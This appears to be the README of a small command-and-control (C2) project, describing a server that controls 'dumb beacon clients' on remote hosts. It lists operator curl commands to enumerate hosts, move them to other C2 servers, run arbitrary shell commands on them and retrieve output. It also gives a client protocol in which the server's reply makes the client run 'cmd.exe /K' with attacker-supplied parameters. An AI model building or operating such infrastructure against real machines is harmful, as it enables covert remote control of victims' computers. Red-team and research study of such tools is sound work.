 # c2

Simplistic C2 infra using fairly dumb beacon clients. 

## Usage

```
python3 -m pip install -r requirements.txt

python3 server.py

# list hosts
curl -X POST x.x.x.x:x/cmd -d "SECRET:L::"

# migrate host to other c2 servers
curl -X POST x.x.x.x:x/cmd -d "SECRET:N:HOST:y.y.y.y:y,z.z.z.z:z"

# execute command on host
curl -X POST x.x.x.x:x/cmd -d "SECRET:C:HOST:ls -al"

# show command output from host
curl -X POST x.x.x.x:x/cmd -d "SECRET:I:HOST:"

# terminate client on host
curl -X POST x.x.x.x:x/cmd -d "SECRET:T:HOST:"
```

## Client Specification

```
POST / HTTP/1.1
host: proxy-to-c2

IDEN:OUTPUT...

HTTP/1.1 200 OK

C:PARAMETERS...
```

- `IDEN`: Random 4 letter identifier for host ie. `KUqT`.
- `OUTPUT`: Output generated by last command or nothing.
- `C`: Single letter command identifier:
    - `T`: Terminate C2 client.
    - `N`: Use C2 servers in comma delimited list `PARAMETERS`.
    - `C`: Execute command ie. `cmd.exe /K <PARAMETERS>`.
- `PARAMETERS`: Parameters required by command or nothing.

